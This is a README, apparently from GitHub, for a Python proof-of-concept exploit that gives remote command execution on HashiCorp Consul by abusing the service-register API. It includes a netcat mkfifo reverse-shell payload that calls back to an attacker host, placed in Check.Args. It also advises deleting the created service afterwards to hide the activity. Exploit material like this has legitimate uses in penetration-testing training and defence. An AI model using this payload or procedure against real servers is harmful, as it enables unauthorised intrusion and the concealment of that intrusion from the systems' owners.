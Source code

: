 # Hashicorp Consul - Remote Command Execution PoC
Author: blu3ming

This is a variation of the PoC found in Metasploit. The objective of this script is not to depend on that tool (OSCP style) and to perform the same procedure manually.

## Use
You need to set LHOST, LPORT (if 443 is already in use on your machine), RHOST and ACL_TOKEN (if apply) inside the script first. This script gets a reverse shell automatically, there's no need of netcat.

`python consul_rce_poc.py`

## Consul
Consul is a free and open-source service networking platform developed by HashiCorp. It has a RCE vulnerability when creating a service through it's API.

## Creating a service
As [Consul documentation](https://developer.hashicorp.com/consul/api-docs/agent/service) describes, we can create a service using the /v1/agent/service/register endpoint, which receives the following data via a PUT request:

- ID: Specifies a unique ID for this service
- Name: Specifies the logical name of the service
- Address: Specifies the address of the service
- Port: Specifies the port of the service
- Check: Specifies a check and, according to it's [documentation](https://developer.hashicorp.com/consul/api-docs/agent/check), uses the following data:
    * Args: Specifies command arguments to run to update the status of the check (eg. "args": ["sh", "-c", "..."])
    * Interval: Specifies the frequency at which to run this check
    * Timeout: Specifies a timeout for outgoing connections in the case of a Script, HTTP, TCP, UDP, or gRPC check
   
## Remote command execution
The creation of this service requires an authentication token from the Consul service, also known as ACL Token. As we can see, we can declare a command inside the Check.Args parameter, and Consul will execute it for us. In this case, we want to execute a reverse shell to get access to the Consul server:

`"Args":["sh", "-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f"]`
  
With this command, now we can bind for a connection with the help of the **shell** function of the Python library **pwntools**.

## Getting access to the server
Consul returns an interactive console:
![imagen](https://user-images.githubusercontent.com/25083316/206324244-5449ebe5-269d-4634-847e-614f7b09c108.png)

## Deleting the service
Finally, we need to delete the service created in order to hide oir activity. This can be done making a PUT request to the /v1/agent/service/deregister/[NAME] endpoint, of course, still using the ACL Token from Consul.
![imagen](https://user-images.githubusercontent.com/25083316/206324287-f6ad616c-67f7-4e9a-b114-1f33ac50fd85.png)

## Dependencies
- requests
- json
- pwntools (can be installed via "pip install pwn")
- threading
